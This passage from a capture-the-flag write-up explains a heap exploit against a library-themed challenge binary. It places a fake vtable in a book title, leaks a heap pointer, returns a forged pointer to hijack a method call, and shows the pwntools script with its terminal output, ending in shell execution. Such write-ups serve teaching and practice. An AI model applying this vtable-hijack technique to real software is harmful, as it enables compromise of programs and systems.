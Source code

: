 ## Writing the Exploit

So, we first want to set up a fake vtable in the book title, then overwrite the vtable pointer to point there. As a quick aside, you will want to keep the length of your title relatively consistent, since this will help ensure that it gets allocated to the heap in a consistent location. You also need to return the book to where it came from as well before attempting to use your bogus vtable; I'll admit I'm not 100% sure why this is, but I'll edit the writeup later if I figure it out! The main payload looks like this:
```
donate_book(p64(0x00401e30) * 6 + b'a' * (50 - (8 * 6)))

pointer = borrow_book(0)

print('Here is my heap leak', hex(pointer))

vtable_loc = pointer - 0x14f0
print('Here is where the vtable pointer is', hex(vtable_loc))

vtable_loc_off = vtable_loc - 0x8


return_book(vtable_loc_off)
return_book(pointer)

#This is the add page option, should trigger a vtable method:
print(target.recvuntil(b'5) Leave feedback'))
target.sendline(b'3')
print(target.recvuntil(b'get?'))
target.sendline(b'0')
print(target.recvuntil(b'3) Tear out page'))
target.sendline(b'2')

target.interactive()
```
And here is the result in the terminal:
```
knittingirl@piglet:~/CTF/romCTF/pwn_table_of_contents$ python3 tableofcontents_writeup.py 
[+] Starting local process './tableofcontents': pid 2590105
[*] running in new terminal: /usr/bin/gdb -q  "./tableofcontents" 2590105 -x /tmp/pwnrmdal7er.gdb
[+] Waiting for debugger: Done
b'WELCOME!\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> Enter title'
b' > 1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> What index to get?'
b' 1) Borrow book\n2) Add a page\n3) Tear out page'
b'\n> Your reference number is: '
b'0x25a03a0'
Here is my heap leak 0x25a03a0
Here is where the vtable pointer is 0x259eeb0
b'1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> Enter reference number'
b': Thank you for returning the book\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> Enter reference number'
b': Thank you for returning the book\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> What index to get?'
b' 1) Borrow book\n2) Add a page\n3) Tear out page'
[*] Switching to interactive mode

> sh: 1: UH\x89\xe5H\x83\xec: not found
1) Donate book
2) List books
```